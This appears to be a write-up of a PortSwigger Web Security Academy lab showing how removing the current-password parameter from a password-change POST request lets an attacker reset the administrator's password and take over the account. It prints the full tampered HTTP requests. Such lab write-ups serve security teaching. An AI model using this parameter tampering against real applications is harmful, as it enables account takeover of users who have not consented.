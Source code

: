 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8b2f4c7d-dac7-4eed-bbfb-f5868c7fe009)

## Overview :

Users won't always supply mandatory input

One misconception is that users will always supply values for mandatory input fields. Browsers may prevent ordinary users from submitting a form without a required input, but as we know, attackers can tamper with parameters in transit. This even extends to removing parameters entirely.

This is a particular issue in cases where multiple functions are implemented within the same server-side script. In this case, the presence or absence of a particular parameter may determine which code is executed. Removing parameter values may allow an attacker to access code paths that are supposed to be out of reach.

When probing for logic flaws, you should try removing each parameter in turn and observing what effect this has on the response. You should make sure to:

- Only **remove one parameter at a time** to ensure all relevant code paths are reached.
- Try **deleting the name of the parameter as well as the value**. The server will typically handle both cases differently.
-  Follow multi-stage processes through to completion. Sometimes **tampering with a parameter in one step will have an effect on another step** further along in the workflow.

This applies to both URL and POST parameters, but don't forget to check the cookies too. This simple process can reveal some bizarre application behavior that may be exploitable. 

## Solution :

The lab description says that **user's privilege level based on their input.** So by somehow abusing this logic flaw we need to gain admin privileges.

Login as wiener using the credentials provided.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0e492a61-c242-4996-b14f-c65f60b0c4a2)


As expected since weiner is a normal user, he is not allowed to access the */admin* panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2876937-500b-4f4b-91ce-78dfdb199cff)

### Logic flaw in password change functionality -

When we enter current password and old password to change the password of a user, the following POST request is sent to*/my-account/change-password* endpoint.

```
POST /my-account/change-password HTTP/2
Host: 0afe00810380bc5c80fc3f99008700ed.web-security-academy.net
Cookie: session=DpIOVFlAqspfHJuDzXmVBehUyiO60xFh
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: https://0afe00810380bc5c80fc3f99008700ed.web-security-academy.net
Referer: https://0afe00810380bc5c80fc3f99008700ed.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=hDmgDzvRuQsMkrIMeamKQa2NiAjlViHD&username=wiener&current-password=peter&new-password-1=1212&new-password-2=1212
```

So as per this lab's overview, we can try to remove a parameter/remove a parameter and value & see if anything wierd happens.

In the above request to change the password, we can see that the **password change happens for the username that is being provided**.

> This is typically dangerous since  in the password change functionality, if it is dependant on the username then an attacker can try to enter the username as admin & change the password.

#### Removing the  `&current-password=` parameter -

When we remove the **&current-password=** parameter, notice that the server accepts the request and changes the password of wiener.

```
csrf=hDmgDzvRuQsMkrIMeamKQa2NiAjlViHD&username=wiener&new-password-1=1212&new-password-2=1212
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/49914567-41b8-4df0-8ccb-f486bb7896c8)

### Resetting admin's password -

So this time we use this logic flaw to reset the password of administrator user.

In the form fill the username as **administrator**, and remove the  **&current-password=** parameter.

The POST request now looks like this .

```
POST /my-account/change-password HTTP/2
Host: 0afe00810380bc5c80fc3f99008700ed.web-security-academy.net
Cookie: session=DpIOVFlAqspfHJuDzXmVBehUyiO60xFh
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: https://0afe00810380bc5c80fc3f99008700ed.web-security-academy.net
Referer: https://0afe00810380bc5c80fc3f99008700ed.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=hDmgDzvRuQsMkrIMeamKQa2NiAjlViHD&username=administrator&new-password-1=thisisnew&new-password-2=thisisnew
```
And we've finally changed/resetted the password of admin user.We can login as admin now using the password we just set.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d0305cd-1955-4255-915e-ea275f0ec5b4)

Go to the admin panel & delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/174b4f7f-b1ae-49bf-b96a-994211f188d0)
